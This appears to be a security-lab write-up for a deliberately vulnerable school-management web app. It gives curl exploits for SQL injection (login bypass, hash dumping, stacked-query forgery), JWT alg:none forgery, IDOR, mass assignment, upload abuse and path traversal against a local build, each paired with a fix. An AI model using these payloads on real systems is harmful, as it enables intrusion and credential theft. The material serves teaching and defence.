

# Vulnerabilities — exploitation and fixes

Each entry lists where the flaw lives, how to exploit it (with `curl`; the same
requests work in Burp Suite Repeater/Intruder), its impact, and the fix.

Run the vulnerable build first:

```bash
RESET_DB=1 python3 app.py            # http://127.0.0.1:3000   (vuln)
```

To confirm a fix, run the secure build and repeat the request:

```bash
RESET_DB=1 APP_MODE=secure PORT=3001 python3 app.py
```

Shortcut used below: `B=http://127.0.0.1:3000`

---

## 1. SQL injection — login bypass

**Where:** `app.py → h_login`.

```python
# VULN
sql = ("SELECT * FROM users WHERE username = '" + username +
       "' AND password_hash = '" + pwd_md5 + "'")
```

**Exploit** — log in as `admin` with no password. The `'--` comments out the
password check:

```bash
curl -s -X POST $B/api/login -H 'Content-Type: application/json' \
  -d '{"username":"admin'\''-- ","password":"anything"}'
# -> 200 with a valid admin JWT
```

**Impact:** full authentication bypass as any user.

**Fix (secure build):**

```python
rows = db.run(conn, "SELECT * FROM users WHERE username = ?", (username,))
user = rows[0] if rows else None
if user and not auth.verify_password(password, user):
    user = None
```

Parameterized queries send SQL and data on separate channels, so input can never
change the statement. **Verify:** the payload now returns `401`.

---

## 2. SQL injection (IDOR too) — certifications

**Where:** `app.py → h_certifications`. The `student_id` query parameter is
concatenated into a numeric context.

```python
# VULN
sql = ("... WHERE c.student_id = " + str(student_id))
```

**Exploit A** — read every student's certifications:

```bash
TOK=$(curl -s -X POST $B/api/login -H 'Content-Type: application/json' \
      -d '{"username":"alice","password":"password1"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')

curl -s "$B/api/certifications?student_id=0%20OR%201=1" -H "Authorization: Bearer $TOK"
```

**Exploit B** — UNION to dump every user's password hash (7 columns to match):

```bash
curl -s -G "$B/api/certifications" -H "Authorization: Bearer $TOK" \
  --data-urlencode "student_id=0 UNION SELECT id,role,username,password_hash,hash_scheme,NULL,full_name FROM users"
# hashes appear in the 'title'/'grade' fields
```

**Impact:** disclosure of all certifications and, via UNION, all credential hashes.

**Fix (secure build):** parameterize **and** authorize (a student may only read
their own):

```python
if ident.get("role") == "student" and str(student_id) != str(ident.get("sub")):
    return 403
rows = db.run(conn, "... WHERE c.student_id = ?", (student_id,))
```

**Verify:** the `OR 1=1` / UNION payloads return `403`; a student requesting
another student's id gets `403`.

---

## 3. Broken JWT authentication

**Where:** `auth.py → jwt_decode_vuln`. The signature is never checked and
`alg:none` is accepted.

```python
# VULN
if header.get("alg") == "none":
    return payload
return payload           # signature never verified
```

**Exploit** — forge a token with `role: admin`, no secret required:

```bash
FORGED=$(python3 - <<'PY'
import auth, json
h = auth.b64url_encode(json.dumps({"alg":"none","typ":"JWT"}).encode())
p = auth.b64url_encode(json.dumps({"sub":4,"username":"alice","role":"admin"}).encode())
print(f"{h}.{p}.")
PY
)
curl -s "$B/api/admin/users" -H "Authorization: Bearer $FORGED"     # -> full user list
```

In **Burp**, use the JWT Editor extension (or Decoder) to change the payload /
set `alg:none`, drop the signature, and replay.

**Impact:** any user can impersonate anyone and become admin.

**Fix (secure build):**

```python
if header.get("alg") != "HS256":                       # reject none / confusion
    return None
if not hmac.compare_digest(_sign(f"{h}.{p}".encode()), s):  # verify signature
    return None
if payload["exp"] < time.time():                       # enforce expiry
    return None
```

**Verify:** the forged token returns `401`; a token whose payload was edited also
fails (HMAC mismatch).

---

## 4. IDOR — private chats and student documents

Two insecure-direct-object-reference bugs with the same root cause: the object is
chosen entirely by an id in the request, with no check that the caller may access it.

### 4a. Read anyone's private conversation

**Where:** `app.py → h_chat` (`GET /api/chat?chat_users[0]=..&chat_users[1]=..`).
The conversation is chosen entirely by the two user ids in the URL, with no check
that the caller is one of them.

In the app, opening one of your chats produces a URL like
`…/#chat?chat_users[0]=4&chat_users[1]=5` — your id and the other person's. Editing
those two numbers loads **any** two users' private conversation.

**Exploit** — logged in as the student `alice` (id 4), read the private
`admin`(1) ↔ `prof_smith`(2) conversation, which contains a secret:

```bash
TOK=<alice token>   # from localStorage after login, or via curl /api/login
curl -s "$B/api/chat?chat_users[0]=1&chat_users[1]=2" -H "Authorization: Bearer $TOK"
# -> "... the grading portal master password is Adm1n_Gu@rd14n_2026 ..."
```

In the browser you don't even need a tool: sign in as `alice`, open **Chat**, click
a conversation, then change `chat_users[0]`/`chat_users[1]` in the address bar to
`1` and `2`. **Burp Intruder** over the two ids enumerates every conversation.

![Alice (a student) reading the private admin ↔ Dr. Smith chat by setting chat_users[0]=1&chat_users[1]=2 in the URL; the message reveals the grading-portal master password](docs/img/idor-chat-secret.png)

**Impact:** total confidentiality loss for private messages — including
professor/admin chats. Note the query is parameterized (this is an *authorization*
bug, not SQLi), and encryption at rest does **not** help: the server decrypts before
responding, so you still need access control.

**Fix (secure build):** you may only open a conversation you belong to (or admin):

```python
me = load_user(conn, ident.get("sub"))
if not (me["role"] == "admin" or ident.get("sub") in (u0, u1)):
    return 403
```

**Verify:** as `alice`, `chat_users[0]=1&chat_users[1]=2` returns `403`; your own
conversation (`4` & `5`) returns `200`.

### 4b. Read any student's document

**Where:** `app.py → h_get_document` (`GET /api/documents/<id>`). A student requests
official documents (attestation, transcript); an approved one is viewable by id, with
no check that the caller owns it.

**Exploit** — as `alice`, read another student's document by walking the id (ids
appear in your own request list):

```bash
curl -s $B/api/documents/1 -H "Authorization: Bearer $TOK"   # not alice's -> leaked
```

**Impact:** disclosure of other students' documents (name, e-mail, reference).
**Fix (secure build):** a student may read only their own document; staff/admin any.

```python
if me["role"] == "student" and doc["student_id"] != me["id"]:
    return 403
```

**Verify:** in the secure build the foreign id returns `403`; your own returns `200`.

---

## 5. Privilege escalation via registration

**Where:** `app.py → h_register`. The role is taken from the request body.

```python
role = b.get("role", "student")     # VULN: client picks its own role
```

**Exploit:**

```bash
curl -s -X POST $B/api/register -H 'Content-Type: application/json' \
  -d '{"username":"hacker","password":"x","role":"admin"}'      # -> role: admin
```

**Fix (secure build):** `role = "student"` — the server assigns roles.
**Verify:** the new account comes back as `student`.

---

## 6. Insecure password hashing

**Where:** `auth.py → hash_password`. Passwords are stored as **unsalted MD5**.

**You don't "reverse" a hash — you crack it.** MD5 is a one-way function, so there
is no inverse. Cracking means *guessing*: you hash candidate passwords and compare
each result with the stolen digest; a match reveals the password. Two things make
unsalted MD5 catastrophic for this:

- **It's fast.** MD5 is cheap, so a cracker like `hashcat` or John the Ripper tries
  **billions of candidates per second** on a single GPU. A wordlist (`rockyou.txt`,
  14M entries) finishes in well under a second, and exhaustive brute force covers
  all short passwords quickly.
- **It's unsalted.** Identical passwords produce identical hashes, so an attacker can
  (a) use **precomputed rainbow tables / online lookups** — the digest is literally
  Googleable — and (b) crack every user who shares a password in a single pass.

**Step 1 — extract the MD5 hashes with SQL injection.** You never see the hashes
directly; you pull them out of the database through one of the earlier injections:

- **From `/api/certifications` (#2)** — a UNION select places each user's
  `password_hash` into a column the page renders, so the hashes show up right in the
  Certifications table:

  ```
  /#certifications?student_id=0 union select 1,2,password_hash,4,5,6,7,8 from users--
  ```

  

- **Or blindly from the login injection (#1)** — where no output is reflected, extract
  the hash one character at a time with a boolean-blind payload
  (`... AND substr(password_hash,1,1)='a'--`), automatable with `sqlmap`.

**Step 2 — crack them with `hashcat` or CrackStation.** The digests are unsalted MD5,
so you don't need the app at all any more. Paste them into **CrackStation** (free,
no GPU — it does a lookup against precomputed tables) or run `hashcat`:

```bash
# -m 0 = MD5, -a 0 = wordlist attack
hashcat -m 0 -a 0 hashes.txt rockyou.txt      # cracks admin123, qwerty, … in milliseconds
```


Five of the six fall instantly because they're common passwords; the sixth is only
"not found" in that wordlist and would still fall to a bigger list or brute force.
Unsalted also means two users with the same password get the **same** hash, so you
crack them all in one pass.

**Fix (secure build):** PBKDF2-HMAC-SHA256 with a **per-user random salt**, **200k
iterations**, and a constant-time comparison. The salt kills rainbow tables and
forces the attacker to crack every hash separately; the iteration count makes each
guess ~200,000× slower, so the billions-per-second advantage collapses to a trickle.
**Verify:** `sqlite3 sms_secure.db "SELECT hash_scheme,salt FROM users"` shows
`pbkdf2` with a distinct salt per user — the same password now yields different
hashes, and a wordlist attack is no longer practical.

> In production prefer `bcrypt`/`scrypt`/`argon2` (memory-hard, GPU-resistant);
> PBKDF2 is used here because a KDF is enough to make the point and needs no extra
> service.

---

## 7. Cryptography — encryption at rest and certificate signatures

Two protections are **absent** in the vuln build and **present** in the secure one.

### 7a. Digital signatures on certifications (Ed25519)

#### How the vuln build is vulnerable

The vuln build stores certificates **unsigned** (`signature` is `NULL`) and, on read,
**never checks anything** — it simply hard-codes `verified: true`:

```python
# app.py -> h_certifications  (VULN branch)
c["verified"] = True        # signatures are never checked, ledger never consulted
```

So a certificate that was never issued by a professor is indistinguishable from a
genuine one. And an attacker does **not** need database access to plant one — a plain
logged-in student can inject it through a **stacked-query SQL injection** in the
course search:

```bash
B=http://127.0.0.1:3000
TOK=$(curl -s $B/api/login -H 'Content-Type: application/json' \
      -d '{"username":"alice","password":"password1"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')

# forge a certificate straight into the table, via the search box
curl -s -G "$B/api/search" -H "Authorization: Bearer $TOK" --data-urlencode \
  "query=%'; INSERT INTO certifications (student_id,title,grade,issued_date,signature,issued_by) VALUES (4,'PhD in Computer Science','A+','2026-01-01',NULL,1); -- "

curl -s -G "$B/api/certifications" -H "Authorization: Bearer $TOK"
# -> the fake "PhD in Computer Science" is listed with  "verified": true
```

#### Why the stacked query is possible (and where)

Two things combine:

1. **The query is built by string concatenation** — the search term is pasted
   straight into SQL (`app.py -> h_search`, VULN branch):

   ```python
   sql = ("SELECT id, code, name FROM courses "
          "WHERE name LIKE '%" + query + "%' OR code LIKE '%" + query + "%' ORDER BY code")
   ```

   The payload `%'; INSERT ... ; -- ` closes the string and the `SELECT`, appends a
   second statement, and comments out the trailing `%' OR code LIKE ...`.

2. **The helper runs *multiple* statements** (`db.py -> run_raw_multi`). SQLite's
   `execute()` deliberately refuses more than one statement, which would normally stop
   a stacked write — but this helper falls back to `executescript()`, which runs them
   all:

   ```python
   def run_raw_multi(conn, sql):
       try:
           cur = conn.execute(sql)        # refuses >1 statement -> ProgrammingError
       except sqlite3.ProgrammingError:
           conn.executescript(sql)        # ... so we run the whole script: the INSERT persists
           return []
       ...
   ```

   That fallback is what turns a read-only search into a **write primitive**.

#### The fix (and where)

Bind the term as a **parameter** and run a **single** statement — the secure build
of `h_search` uses `db.run` (parameterized), so the input is only ever *data*, never
SQL, and stacking is impossible (SQLite executes one statement and rejects the rest).
`run_raw_multi`/`run_raw` are the teaching "unsafe" helpers; real code uses `run`:

```python
# app.py -> h_search  (SECURE branch)
rows = db.run(conn,
    "SELECT id, code, name FROM courses WHERE name LIKE ? OR code LIKE ? ORDER BY code",
    ("%" + query + "%", "%" + query + "%"))
```

So in the secure build the injection above returns no rows and inserts nothing.

#### How the secure build defends the certificate itself

Even if an attacker reached the database directly, two independent checks catch a
forged or altered certificate:

- **Ed25519 signature (integrity + authenticity).** On issue, the server signs a
  *canonical* representation of the cert with the issuer's private key
  (`crypto_utils.sign_cert`, called from `app.py -> h_issue_cert` and `db.py -> _seed`);
  on read it re-verifies that signature (`crypto_utils.verify_cert`, called from the
  SECURE branch of `h_certifications`). The signed bytes are a sorted-key JSON of
  `student_id, title, grade, issued_date` (`crypto_utils.cert_payload`), so changing
  **any** of those fields — or supplying no signature at all, as the SQLi does —
  makes verification fail:

  ```bash
  # secure build: edit a real cert's grade in the DB but keep the old signature
  sqlite3 sms_secure.db "UPDATE certifications SET grade='20.00' WHERE title LIKE 'Course Completion%';"
  curl -s -G "$S/api/certifications?student_id=4" -H "Authorization: Bearer $TOKS"
  # -> that certificate now comes back  "verified": false
  ```

  The public key is published at `GET /api/pubkey`, so anyone can verify a cert
  independently, without trusting the server.

- **Blockchain anchoring (tamper-evidence against insertion).** A signature proves
  *"the issuer signed these bytes"*, but on its own it can't prove a record wasn't
  **deleted or added wholesale** by someone who can write the DB. So the secure build
  also anchors each cert's **fingerprint** — `SHA-256(cert_payload)`
  (`crypto_utils.cert_fingerprint`) — in the `GradeLedger` smart contract at issue
  time (`eth_ledger.anchor_cert`). On read, `h_certifications` recomputes the
  fingerprint and asks the contract whether it is anchored
  (`eth_ledger.is_cert_anchored`), returning `on_chain: true|false`:

  ```bash
  # the cert injected by SQLi (or any INSERT) was never anchored:
  # -> "verified": false  AND  "on_chain": false
  ```

  The ledger is why the forgery can't be hidden: it runs in a **separate process**
  (not in the SQLite file the attacker tampered with), it is **append-only**, and the
  contract's `onlyIssuer` modifier rejects any write not signed by the issuer key — so
  an attacker who can write the database still cannot anchor a matching fingerprint.
  This is the same mechanism as #8; see it there for the on-chain details.

**In short:** the signature detects *modified* fields; the blockchain detects
*inserted/removed* records and gives an independent, tamper-evident source of truth.
The vuln build has neither, which is why a cert injected through a search box sails
through as `verified: true`. This is the **digital-signature** requirement —
HMAC-SHA256 similarly protects the JWT (see #3).

### 7b. Encryption at rest for messages (AES-256-GCM)

**Why this belongs under cryptography.** Cryptography provides three things here:
*integrity & authenticity* (the Ed25519 signatures in #7a), *integrity for the JWT*
(HMAC-SHA256, #3), and — this part — **confidentiality**. "Encryption at rest" is the
confidentiality control for stored data: it keeps anyone who can read the raw storage
(the `.db` file, a backup, a stolen disk, a leaked dump) from reading the contents.
Storing the message bodies as **plaintext** means that control is simply absent — the
data has no cryptographic protection at all, so the file *is* the secret.

Vuln build stores message bodies in plaintext — anyone with the DB file reads
everything, including the private admin↔professor chat that holds the master password
(the same secret the IDOR in #4 exposes over the API):

```bash
sqlite3 sms_vuln.db "SELECT body FROM messages LIMIT 3;"   # readable plaintext
```

Secure build encrypts each body with **AES-256-GCM** (`crypto_utils.encrypt`) before
storing it, and decrypts on read. GCM is *authenticated* encryption, so it gives
confidentiality **and** tamper-detection of the ciphertext; a fresh random 12-byte
nonce per message means identical texts don't produce identical ciphertext:

```bash
sqlite3 sms_secure.db "SELECT body FROM messages LIMIT 3;"  # base64 AES-GCM ciphertext
```

The key lives in `keys/aes.key` (outside the database), so reading the DB file alone
reveals nothing.

**Defense-in-depth note:** encryption at rest protects the *database file*; it does
**not** fix the IDOR in #4, because the server decrypts before responding over the
API. You need both access control *and* encryption.

---

## 8. No integrity anchoring — grade/certificate tampering goes undetected

**Where:** `app.py → h_set_grade`, `h_issue_cert`, `h_certifications`,
`h_grade_integrity`; ledger in `eth_ledger.py` + `contracts/src/GradeLedger.sol`.

The vuln build keeps academic records in the `grades` and `certifications` tables
only. If an attacker reaches the database — via the SQL injection in #2, a stolen
file, or direct access — they can change a grade or insert a diploma and nothing
flags it: the application never cross-checks the records against an independent,
tamper-evident source.

**Exploit** — in the vuln build, change a grade straight in the DB; the app shows it
without question and offers no way to tell it was altered:

```bash
sqlite3 sms_vuln.db "UPDATE grades SET grade='20.00' WHERE student_id=4 AND course_id=1;"
# /api/my/grades now shows 20.00; the build has no ledger and no integrity check
# (/api/grades/integrity and /api/blockchain return 404)
```

**Impact:** silent, unattributable tampering with grades and certificates — the
records an institution exists to vouch for.

**Fix (secure build):** anchor a hash of every record in a smart contract that only
the issuer can write, and verify on read.

- *On write*, `h_set_grade` / `h_issue_cert` compute the SHA-256 of the row as
  stored and call `anchorGrade` / `anchorCertificate` on `GradeLedger`. The DB
  change is committed only if the transaction succeeded; if anvil is down it is
  rolled back and the API returns `503`.
- *On read*, the hash is recomputed from the DB and compared with the contract:

  ```bash
  sqlite3 sms_secure.db "UPDATE grades SET grade='20.00' WHERE student_id=4 AND course_id=1;"
  # GET /api/grades/integrity -> Mathematics: db_hash != chain_hash -> ok:false (TAMPERED)
  ```

  A certificate inserted straight into the DB comes back `verified:false` **and**
  `on_chain:false`; a genuine one is `on_chain:true`.


- *The ledger itself cannot be fixed up* by the attacker: it lives in a separate
  process (not in the SQLite file), and the contract's `onlyIssuer` modifier
  rejects every write not signed by `keys/eth_issuer.key`:

  ```solidity
  modifier onlyIssuer() {
      if (msg.sender != issuer) revert NotIssuer();
      _;
  }
  ```

  A write from any other account reverts with `NotIssuer()` (see DEMO §7).

**Verify:** `python3 scripts/try_attack.py` runs the same attacks against both
builds and prints the result side by side. By hand: the vuln build has no
integrity endpoint (404) and certificates carry no `on_chain` field; on the secure
build grades show `ok:true` until the DB is edited, and `cd contracts && forge test`
shows a non-issuer write reverting.

**Limits:** one local node is not decentralized, and whoever steals the issuer key
(i.e. compromises the app server) can anchor false records. The fix protects
against attackers who can write to the *database*, which is the threat here.

---

## 9. Mass assignment — profile update sets privileged columns

**Where:** `app.py → h_update_profile` (`POST /api/profile`). The vuln build writes
every key in the body to the user row; the form only exposes name/email/phone/address.

```python
# VULN
fields = [k for k in b if k in cols and k != "id"]      # includes role, password_hash…
conn.execute("UPDATE users SET " + ", ".join(f"{k} = ?" for k in fields) + " WHERE id = ?", …)
```

**Exploit** — as the student `alice`, add `role` (or `password_hash`) to the request:

```bash
curl -s -X POST $B/api/profile -H "Authorization: Bearer $TOK" \
  -H 'Content-Type: application/json' -d '{"full_name":"Alice","role":"admin"}'
curl -s $B/api/me -H "Authorization: Bearer $TOK"        # -> role: admin
```

**Impact:** privilege escalation to admin from an ordinary account. **Fix (secure
build):** write only an explicit whitelist (`full_name, email, phone, address`);
`role`, `id`, `password_hash`, `username` are never taken from the request.
**Verify:** the same request leaves `role` as `student`.

---

## 10. Unrestricted file upload

**Where:** `app.py → _save_upload`, `h_request_document`. A student attaches a
supporting file to a document request. The vuln build does **no validation** — no
content-type, extension or size check — and stores the file under the
**client-supplied filename**:

```python
# VULN _save_upload: client filename trusted, no type/size check
name = fs.filename or "upload.bin"
fs.save(os.path.join(UPLOAD_DIR, name))
```

**Exploit** — attach a file of any type and any size (an executable, an HTML page, a
multi-GB file); it is accepted and saved verbatim. Because the filename comes from the
client, a predictable or colliding name can also overwrite another upload:

```bash
curl -s -X POST $B/api/documents -H "Authorization: Bearer $TOK" \
  -F "doc_type=Attestation d'inscription" -F "attachment=@evil.html"
# accepted — a non-PDF "document" is stored as-is, under the name we chose
```

**Impact:** arbitrary, unvalidated content on the server; no size limit (storage
exhaustion); and, with a trusted filename, collisions/overwrites. **Fix (secure
build):** require a real PDF (magic bytes `%PDF-`) under a 5 MB cap, and store under a
random, server-generated name — never the client's:

```python
# SECURE _save_upload
if len(data) > 5 * 1024 * 1024:   raise ValueError("file too large (max 5 MB)")
if not data.startswith(b"%PDF-"): raise ValueError("only PDF files are accepted")
name = secrets.token_hex(16) + ".pdf"
```

**Verify:** `evil.html` (or an oversized file) is rejected with "only PDF files are
accepted"; a valid PDF is stored under a random `.pdf` name inside `uploads/`.

---

## 11. Path traversal — arbitrary file read on download

**Where:** `app.py → h_download_document` (`GET /api/documents/<id>/download`). The
download normally serves the file recorded for a document, but the vuln build lets the
client override the served path with a `name` parameter, joined onto the upload
directory with no sanitisation:

```python
# VULN download: served path taken from the client, no sanitisation
name = request.args.get("name") or stored
return send_file(os.path.join(UPLOAD_DIR, name))
```

`os.path.join(UPLOAD_DIR, "../../secret")` escapes the upload directory, so `name` can
point at anything the server process can read.

**Exploit** — walk out of `uploads/` to leak server secrets (any existing document id
works, e.g. `1`):

```bash
curl -s "$B/api/documents/1/download?name=../../keys/issuer_ed25519.pem" -H "Authorization: Bearer $TOK"
#   -> the Ed25519 certificate signing key (forge "valid" certificates)
curl -s "$B/api/documents/1/download?name=../../sms_vuln.db" -H "Authorization: Bearer $TOK" -o stolen.db
#   -> the entire database   (on the secure build try ../../keys/eth_issuer.key for the on-chain key)
```

This is the same endpoint the Documents page's download buttons call (`downloadDoc()`
in `app.js`); the UI only ever requests the recorded file, so you add `?name=` by hand
in Burp/curl.

**Impact:** disclosure of any file the server can read — the signing key, the database,
source code. **Fix (secure build):** never accept a path from the client; serve only
the file recorded for that document id, as an attachment with a fixed PDF type:

```python
# SECURE: ignore any client path; serve the stored file as an attachment
return send_file(os.path.join(UPLOAD_DIR, stored), mimetype="application/pdf",
                 as_attachment=True, download_name=f"{doc['reference'] or doc_id}.pdf")
```

**Verify:** `?name=../../keys/eth_issuer.key` is ignored; the download returns only the
document's own PDF (or `404` if it has none).

---

## Surfaced realistically (not new flaws)

Three existing flaws were moved off-screen so they're found the way they would be in
a real engagement, without changing whether they exist:

- **Credential leak via the admin user list (#7)** — the vuln `GET /api/admin/users`
  still returns `password_hash` (sensitive-data exposure), but the Users page no
  longer renders it; you find it in the Network tab / Burp, not in a visible column.
- **IDOR recon (#4)** — internal ids are no longer printed in the UI (directory,
  dashboards, dropdowns, profile). They still appear in JSON and in the chat URL,
  which is the normal recon path.
- **#5 role escalation** — the disabled "Account type" field was removed from the
  signup form; the client simply never sends a role, and the attacker discovers the
  vuln build accepts one by adding it to the request.

---

## Summary

| # | Vulnerability | Fix |
|---|---------------|-----|
| 1 | SQLi login bypass | parameterized query |
| 2 | SQLi in certifications | parameterized query + authorization |
| 3 | JWT not verified / `alg:none` | pin alg, verify HMAC, check exp |
| 4 | IDOR — private chats and student documents | ownership/role check |
| 5 | Privilege escalation at registration | server-assigned role |
| 6 | Unsalted MD5 passwords | PBKDF2 + salt |
| 7 | No signatures / no encryption at rest | Ed25519 signatures + AES-GCM |
| 8 | No integrity anchoring (tampering undetected) | issuer-only smart contract: anchor hashes on write, verify on read |
| 9 | Mass assignment on profile update | server-side field whitelist |
| 10 | Unrestricted file upload | PDF magic-bytes + size cap + random server-side name |
| 11 | Path traversal on download | serve only the recorded file, never a client path |

**Secure-build business rules** (flaws only in the vuln build, not numbered attacks):
grades must be numeric and within 0–20; certificates enforce a minimum grade
(Achievement ≥ 10, Honors ≥ 16); the session returns to login on token expiry.
